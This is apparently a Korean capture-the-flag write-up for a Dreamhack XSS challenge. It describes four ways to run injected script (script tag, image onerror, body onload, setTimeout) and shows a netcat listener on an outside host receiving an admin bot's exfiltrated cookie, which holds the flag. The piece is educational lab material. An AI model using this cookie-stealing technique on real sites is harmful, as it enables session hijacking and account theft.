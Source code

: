 **코드 1**:  `<script>` 태그를 사용해 코드 직접 삽입. 즉시 실행

**코드2**: 이미지의 `src`속성에 잘못된 값을 넣어 로딩 오류 유도→`onerror`이벤트가 트리거되어 실행

**코드3**: `<body>`태그의 `onload` 이벤트 사용. 페이지가 로드되면 실행

**코드4**: `<script>` 태그 안에서 `setTimeout()`함수를 사용해 일정 시간 후 실행

|

### **실행 결과**

---

```bash
azureuser@php-dev-1:~$ nc -l -p 10010
GET /cookie=K0%7BWh3r3_d1d_my_s3cr3t_k3y?} HTTP/1.1
Host: 20.41.120.97:10010
Connection: keep-alive
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/126.0.6478.126 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://localhost:10006/
Accept-Encoding: gzip, deflate
```

|

|

## Exploit 2: dreamhack Request Bin

[dreamhack tools](https://tools.dreamhack.games/main)
